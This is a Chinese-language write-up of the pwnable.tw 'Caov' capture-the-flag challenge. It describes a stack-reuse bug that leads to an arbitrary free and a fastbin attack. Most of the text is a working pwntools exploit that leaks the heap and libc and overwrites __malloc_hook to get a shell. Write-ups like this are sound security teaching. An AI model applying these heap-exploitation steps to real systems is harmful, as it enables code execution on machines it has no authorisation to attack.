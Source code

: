 # Pwnable Caov


人生自是有情痴，此恨不关风雨月。 			——《玉楼春》欧阳修

## 题目保护

![image-20210716144239067](https://gitee.com/nopnoping/img/raw/master/img/image-20210716144239067.png)

没有开ASLR保护，其它保护全开，话不多说，上IDA，直接开整。

## 漏洞分析

题目是用C++编写的，给了源代码，但是从代码中看不出漏洞，所以只能从IDA来分析。用IDA分析C++程序最关键的就是构建对象的结构。

在main函数中，new了一个0x30大小的空间，并随后就对该空间的数据进行了赋值，可以合理推测，这里创建了对象，并且对象的大小为0x30。

![image-20210716144626205](https://gitee.com/nopnoping/img/raw/master/img/image-20210716144626205.png)

进入显示函数，我们可以很容易的得到对象各个数据段的意义。

![image-20210716145016868](https://gitee.com/nopnoping/img/raw/master/img/image-20210716145016868.png)

逆向出数据结构后，我们就可以好好的分析程序了。

在图中所示的程序处，存在一个储存于栈地址的对象，并且在程序的开始处，对该对象进行了解构。同时我们发现该函数是在sub_401396调用后随后调用，没有对栈地址清零，因此可以使用stack-reuse技术，构造栈地址上的对象，从而可以任意free，实施fast bin攻击。

![image-20210716145118187](https://gitee.com/nopnoping/img/raw/master/img/image-20210716145118187.png)

## 漏洞利用

在漏洞利用前，我们需要理清楚程序的逻辑。在重新编辑阶段，程序会经历new1->free_arb->(new2)->show->free1。其中new1和free1是相对应的，free_arb即我们使用stack-reuse释放的堆块。new2仅将输入的长度小于1000并且将输入的长度大于现今的长度时才调用，注意这个很关键，后面的利用会常用到这个特征。

想要获得shell，我们就需要泄露libc，而如果我们可以控制对象的key值，就可以实现任意读。但是对象是被分配在堆上的，所以想要泄露libc，首先得泄露heap。如何泄露heap？程序凡是涉及输入的，都会在输入数据的末尾加上\x00，因此如果想通过堆块残留的数据来进行泄露，是不行的。该如何？既然利用残留的数据不行，那么我们就将正在使用的堆块释放，将堆块链表数据覆盖本身的值，进而来输出。

思路就很清晰了，利用free_arb释放一个堆块，new2分配到，然后再free_arb同一个块，利用上述条件使此时new2不满足条件，进而show泄露出heap。这一段的代码如下：

````python
enter_name('aaa')
enter_info("a"*0x28,1) 
#leak heap address
#0x60
fake_chunk=p64(0)+p64(0x41)+p64(0)*6+p64(0)+p64(0x21)+p64(0)*2
edit(fake_chunk+p64(name+0x10),0x30,'a'*0x30,1) 
edit_name(fake_chunk+p64(name+0x10))
ru("after")
ru("Key: ")
heap=u64(ru("\n").ljust(8,b'\x00'))
# target_heap=heap-(0xd50-0xc60)
target_heap=heap+0xcd0-0xc90
info_addr("heap",heap)
info_addr("target_heap",target_heap)
````

泄露libc就很容易了，由于开了FULL RELRO保护，GOT表会在程序运行时，提前加载好，因此如果修改key为GOT地址，就可以泄露libc了。具体的做法是用泄露的heap，计算对象所在堆块，然后free_arb，再new2分配到，进而修改。

```python
#leak libc address
fake_chunk=p64(0)+p64(0x41)+p64(heap)+p64(0)*6+p64(0x21)+p64(0)*2
edit(fake_chunk+p64(target_heap+0x10),0x30,p64(got),2)
ru("after")
ru("Key: ")
libc_base=u64(ru("\n").ljust(8,b'\x00'))-libc.symbols["exit"]
malloc_hook=libc_base+libc.symbols["__malloc_hook"]
#0x4526a (0x30) 0xef6c4 (0x50) 0xf0567 (0x70)
one_gadget=libc_base+0xef6c4
info_addr("libc_base",libc_base)
info_addr("malloc_hook",malloc_hook)
info_addr("one_gadget",one_gadget)
```

打malloc_hook即可获得shell，具体思路与上面一致。

```python
#attack
fake_chunk=p64(0)+p64(0x71)+p64(0)*10+p64(name+0x10)+p64(0)*2+p64(0x21)
edit_name(fake_chunk)
fake_chunk=p64(0)+p64(0x71)+p64(malloc_hook-0x23)
edit(fake_chunk,0x60,'a',2)
edit(p64(0),0x60,b'\x00'*0x13+p64(one_gadget),2)
```

## CODE

全部代码如下

```python
from pwn import *

s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()

if args['REMOTE']:
	sh=remote("chall.pwnable.tw",10306)
else:
	sh=process('./caov')

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'

def debug(command=''):
	context.terminal = ['tmux', 'splitw', '-v']
	gdb.attach(sh,command)

def choice(elect):
	ru(':')
	sl(str(elect).encode())

def edit(name,length,key,value):
    choice(2)
    enter_name(name)
    ru("length:")
    sl(str(length).encode())
    enter_info(key,value)

def show():
	choice(1)

def enter_name(name):
    ru("name:")
    sl(name)

def enter_info(key,value):
    ru("ey:")
    sl(key)
    ru("alue:")
    sl(str(value).encode())

def edit_name(name):
    choice(2)
    enter_name(name)
    ru("length:")
    sl("1024".encode())

def exp():
    #libc=ELF("/glibc/2.23/64/lib/libc-2.23.so")
    libc=ELF("./libc_64.so")
    name=0x6032C0
    got=0x602F20
    #debug("b*0x00000000004014F5  \nc")
    enter_name('aaa')
    enter_info("a"*0x28,1)
    #leak heap address
    #0x60
    fake_chunk=p64(0)+p64(0x41)+p64(0)*6+p64(0)+p64(0x21)+p64(0)*2
    edit(fake_chunk+p64(name+0x10),0x30,'a'*0x30,1)
    edit_name(fake_chunk+p64(name+0x10))
    ru("after")
    ru("Key: ")
    heap=u64(ru("\n").ljust(8,b'\x00'))
   # target_heap=heap-(0xd50-0xc60)
    target_heap=heap+0xcd0-0xc90
    info_addr("heap",heap)
    info_addr("target_heap",target_heap)

    #leak libc address
    fake_chunk=p64(0)+p64(0x41)+p64(heap)+p64(0)*6+p64(0x21)+p64(0)*2
    edit(fake_chunk+p64(target_heap+0x10),0x30,p64(got),2)
    ru("after")
    ru("Key: ")
    libc_base=u64(ru("\n").ljust(8,b'\x00'))-libc.symbols["exit"]
    malloc_hook=libc_base+libc.symbols["__malloc_hook"]
    #0x4526a (0x30) 0xef6c4 (0x50) 0xf0567 (0x70)
    one_gadget=libc_base+0xef6c4
    info_addr("libc_base",libc_base)
    info_addr("malloc_hook",malloc_hook)
    info_addr("one_gadget",one_gadget)

    #attack
    fake_chunk=p64(0)+p64(0x71)+p64(0)*10+p64(name+0x10)+p64(0)*2+p64(0x21)
    edit_name(fake_chunk)
    fake_chunk=p64(0)+p64(0x71)+p64(malloc_hook-0x23)
    edit(fake_chunk,0x60,'a',2)
    edit(p64(0),0x60,b'\x00'*0x13+p64(one_gadget),2)
    debug()
    itr()

exp()

```




